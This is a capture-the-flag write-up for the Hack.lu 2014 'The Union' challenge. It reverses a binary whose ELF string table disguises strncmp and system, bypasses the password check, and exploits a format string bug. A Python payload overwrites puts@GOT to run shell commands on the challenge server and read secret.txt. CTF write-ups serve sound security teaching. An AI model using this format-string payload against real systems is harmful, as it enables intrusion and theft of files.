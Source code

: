 # Hack.lu CTF 2014: The Union

**Category:** Exploiting
**Points:** 200
**Author:** sqall
**Description:**

> Our biggest competitor the mining corporation, The Union, has a new way of organizing its mining facilities. On the surface, it looks like a mining location archive. But our man inside told us, it has a secret trapdoor that we can use to infiltrate the corporation and steal their secret. We need their secret. They have one success after another and it will not be long until we are finished. Our informant also told us that not everything is what it seems to be. We do not know what this means. Luckily for us, he managed to get us the blueprints of the system. So we should be able to study them before we went for the heist. So, this is your job. Study the blueprints and then go for the valuable `secret.txt`. This is everything we need to overcome them.
>
> Download: [theunion_9edfcf7b247775ab57da993863bfaabd](theunion_9edfcf7b247775ab57da993863bfaabd)
>
> `nc wildwildweb.fluxfingers.net 1423`

## Write-up

When connecting to the server, it greets us with the following prompt:

```
	Welcome to
 _   _                        _             _
| |_| |__   ___   _   _ _ __ (_) ___  _ __ ( )___
| __| '_ \ / _ \ | | | | '_ \| |/ _ \| '_ \|// __|
| |_| | | |  __/ | |_| | | | | | (_) | | | | \__ \
 \__|_| |_|\___|  \__,_|_| |_|_|\___/|_| |_| |___/

			mining archive.

Please give the unions slogan and secret word:
```

By looking at the disassembly of the binary, we figure out that the password is the string `gold>silver`, concatenated with the contents of the file `salt.txt`, which we don’t know.

When playing with the binary locally, we noticed the following oddity: even if we had a trailing newline in the `salt.txt`, we could still get access even though the input password is read without the trailing newline. This caused us to take a closer look at the string comparison part of the code:

```
080489af         mov        dword [ss:esp+0x8], 0xc         # argument 3 ??
080489b7         mov        eax, dword [ss:ebp+var_40]
080489ba         mov        dword [ss:esp+0x4], eax         # argument 2
080489be         lea        eax, dword [ss:ebp+var_21]
080489c1         mov        dword [ss:esp], eax             # argument 1
080489c4         call       strcmp@PLT
080489c9         test       eax, eax
080489cb         jne        0x80488fc
```

At this point we recalled the hint “not everything is what it seems to be” and figured that probably not `strcmp` is called, but `memcmp`, which takes an additional `length` parameter. This means that actually only the first 12 characters of the password are checked, which is only one additional character to what we already know! After two tries we find the correct access code:

```
Please give the unions slogan and secret word:
gold>silverb
Correct slogan.

1) Add mine
2) Show mines
3) Delete mine
4) Show profit
5) Exit
```

Looking at the xrefs of some of the strings in the binary, we find the ‘trapdoor’:

```
1) Add mine
2) Show mines
3) Delete mine
4) Show profit
5) Exit
99
Ufff! You found our trapdoor.
Ok here you go. Everything in here is not what it seems to be.
If you do not understand this, you are not quite there yet.
```

That’s not really helpful. The disassembly of the function however is:

```
08049209         mov        ebp, esp
0804920b         sub        esp, 0x18
0804920e         mov        dword [ss:esp], 0x8049b08                           ; "Ufff! You found our trapdoor.", argument #1 for method puts@PLT
08049215         call       puts@PLT
0804921a         mov        eax, dword [ds:stdout]                              ; stdout
0804921f         mov        dword [ss:esp+0x4], eax                             ; argument #2 for method fputs@PLT
08049223         mov        dword [ss:esp], 0x8049b28                           ; "Ok here you go. Everything in here is not what it seems to be.\\n", argument #1 for method fputs@PLT
0804922a         call       fputs@PLT
0804922f         cmp        dword [ss:ebp+arg_0], 0x0
08049233         je         0x8049243

08049235         mov        dword [ss:esp], 0x8049b68                           ; "This is what you should use.", argument #1 for method printf@PLT
0804923c         call       printf@PLT
08049241         jmp        0x804924f

08049243         mov        dword [ss:esp], 0x8049b88                           ; "If you do not understand this, you are not quite there yet.", argument #1 for method puts@PLT, XREF=sub_8049208+43
0804924a         call       puts@PLT

0804924f         mov        eax, dword [ds:stdout]                              ; stdout, XREF=sub_8049208+57
08049254         mov        dword [ss:esp], eax                                 ; argument #1 for method fflush@PLT
08049257         call       fflush@PLT
0804925c         leave
0804925d         ret
```

Two things of interest:

1. `fputs(..., stdout)` is used, although it does the same thing as `puts`, which is used in the same function
2. The call to `printf` is unreachable, so probably some kind of hint.

We suspect that `fputs` and `printf` are also not what they seem. Some digging into the ELF headers confirms this: `DT_STRTAB` points to a string table that contains slightly different function names than the symbol table would have us believe. We note:

* `strcmp` is really `strncmp`
* `printf` is really `system`
* `fputs` is really `printf`

`printf` is never called with user input, but `fputs` is. This leaves us with a format string vulnerability, which can be triggered as follows:

```
1) Add mine
2) Show mines
3) Delete mine
4) Show profit
5) Exit
1
Please give the location:
%d
Please give the type of the mine:
foo
Please give the profit of the mine:
1
1) Add mine
2) Show mines
3) Delete mine
4) Show profit
5) Exit
4
Do you want to see the profit?
Location: Dingo canyon
Type: silver
y/n
n
Do you want to see the profit?
Location: Joe's rock
Type: gold
y/n
n
Do you want to see the profit?
Location: Dynamite Bill's boulder
Type: diamond
y/n
n
Do you want to see the profit?
Location: %d
Type: foo
y/n
y
Profit for location:
-143864192             <= this is the output of the printf
foo
1
```

When breaking on `fputs@PLT`, we can inspect the stack layout and we find that the user-controlled string `Type: foo` is conveniently located at stack offset `42`.

From here the exploit is straightforward: We perform two 2-byte writes to overwrite `puts@GOT` (`0x0804b028`) so that it contains the address of `printf@PLT` (`0x080485e0`), which is really `system`. The type of our mine serves both as the pointers for the `%hn` modifiers and as the shell command we want to execute.

This Python script produces output that can be piped right into the server to get the flag:

```
print 'gold>silverb'
print 1
print '%2052d%12$hn%32220d%13$hn'
print loc
print 'sh #BB\x2a\xb0\x04\x08\x28\xb0\x04\x08'
print 1
print 4
print 'n\nn\nn\ny'
print 'cat secret.txt\n' * 100
```

And sure enough:

```bash
$ python input.py | nc wildwildweb.fluxfingers.net 1423
...
FLAG{d1aM0nd>G0lD}
FLAG{d1aM0nd>G0lD}
FLAG{d1aM0nd>G0lD}
FLAG{d1aM0nd>G0lD}
FLAG{d1aM0nd>G0lD}
FLAG{d1aM0nd>G0lD}
...
```

The flag is `FLAG{d1aM0nd>G0lD}`.

## Other write-ups and resources

* <http://barrebas.github.io/blog/2014/10/26/hack-dot-lu-the-union-write-up/>
* [ELF obfuscation: how to let analysis tools show incorrect external symbol calls](http://h4des.org/blog/index.php?/archives/346-ELF-obfuscation-let-analysis-tools-show-wrong-external-symbol-calls.html)
